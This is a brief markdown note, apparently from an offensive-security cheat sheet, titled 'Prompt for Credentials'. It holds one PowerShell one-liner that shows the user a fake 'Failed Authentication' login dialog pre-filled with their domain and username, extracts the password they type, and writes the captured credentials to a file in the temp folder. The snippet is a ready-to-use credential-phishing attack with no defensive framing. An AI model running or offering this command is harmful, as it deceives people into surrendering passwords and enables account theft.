 # Prompt for Credentials

``powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+''+[Environment]::UserName,[Environment]::UserDomainName); $pass = $cred.getnetworkcredential().password; $user = [Environment]::UserDomainName+''+[Environment]::UserName; echo '$user `n$cred' > $env:TEMP\credz.txt "``
